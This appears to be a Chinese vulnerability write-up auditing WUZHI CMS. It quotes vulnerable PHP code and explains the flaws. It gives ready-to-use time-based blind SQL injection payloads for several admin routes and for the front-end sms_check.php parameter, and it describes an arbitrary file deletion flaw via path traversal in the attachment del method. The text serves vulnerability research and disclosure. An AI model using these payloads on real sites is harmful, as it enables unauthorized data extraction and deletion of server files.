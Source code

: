 最终调用的都是`coreframe/app/core/libs/class/mysql.class.php`中的`get_list()`或`get_one()`方法，这两个方法核心代码相同，如下
```php
var $tablepre = 'wz_';

$sql = 'SELECT '.$field.' FROM `'.$this->tablepre.$table.'`'.$where.$group.$order.$limit;
$query = $this->query($sql);
```
总的来说，`$where`是由`keywords`参数传入的。如果keywords不是数组形式，就只对`%20 %27`替换为空，没有其他的过滤。然后执行了sql语句为`SELECT COUNT(*) AS num FROM `wz_copyfrom` WHERE `name` LIKE '%'%' LIMIT 0,1`。

拿sqlmap都能直接跑出payload，基本形式均为
```
1' AND (SELECT 1228 FROM (SELECT(SLEEP(5)))jFgw)-- JQJJ
```
其他后台sql基本形式如下
```
m=coupon&f=card&v=detail_listing&_su=wuzhicms&groupname=1' AND (SELECT 4814 FROM (SELECT(SLEEP(5)))UYWY)-- XqZC
m=member&f=group&_su=wuzhicms&v=del&groupid=1 AND 5623=BENCHMARK(5000000,MD5(0x6c4d6542))
m=order&f=card&v=listing&_su=wuzhicms&type=1&batchid=1' AND (SELECT 1228 FROM (SELECT(SLEEP(5)))jFgw)-- JQJJ
m=order&f=goods&v=listing&_su=wuzhicms&keywords=1&keytype=0&cardtype=1' AND (SELECT 1228 FROM (SELECT(SLEEP(5)))jFgw)-- JQJJ
m=promote&f=index&v=search&_su=wuzhicms&fieldtype=place&keywords=1' AND (SELECT 1228 FROM (SELECT(SLEEP(5)))jFgw)-- JQJJ
```

前台的sql注入相对简单，漏洞定位`www/api/sms_check.php`，代码如下，接收param参数，直接拼接到了sql语句中。同样用payload`param=1' AND (SELECT 8798 FROM (SELECT(SLEEP(5)))BAkg)-- DIyd
`即可盲注
```php
$code = strip_tags($GLOBALS['param']);
$posttime = SYS_TIME-300;//5分钟内有效
$db = load_class('db');
$r = $db->get_one('sms_checkcode',"`code`='$code' AND `posttime`>$posttime",'*',0,'id DESC');
```

### 任意文件删除漏洞

漏洞定位`coreframe/app/attachment/admin/index.php`的del方法，用来删除附件，获取要删除的附件的ID或URL，检查是否存在。代码如下
```php
public function del()
{
  $id = isset($GLOBALS['id']) ? $GLOBALS['id'] : '';
  $url = isset($GLOBALS['url']) ? remove_xss($GLOBALS['url']) : '';
  if (!$id && !$url) MSG(L('operation_failure'), HTTP_REFERER, 3000);
  if ($id) {
    ...
  }
  else {
    if (!$url) MSG('url del ' . L('operation_failure'), HTTP_REFERER, 3000);
    $path = str_ireplace(ATTACHMENT_URL, '', $url);
    if ($path) {
      $where = array('path' => $path);
      $att_info = $this->db->get_one('attachment', $where, 'usertimes,id'); // 从path中查询该附件

      if (empty($att_info)) {
        $this->my_unlink(ATTACHMENT_ROOT . $path); // 如果查询结果为空，删除该路径下的附件
        MSG(L('operation_success'), HTTP_REFERER, 3000);
      }
     ...
  }
}
```
如果sql查询结果为空，直接删除该路径下的$path，$path的值是通过url传入的，并且只是对xss进行了过滤，并没有过滤`../`，可以直接跨目录删除任意文件
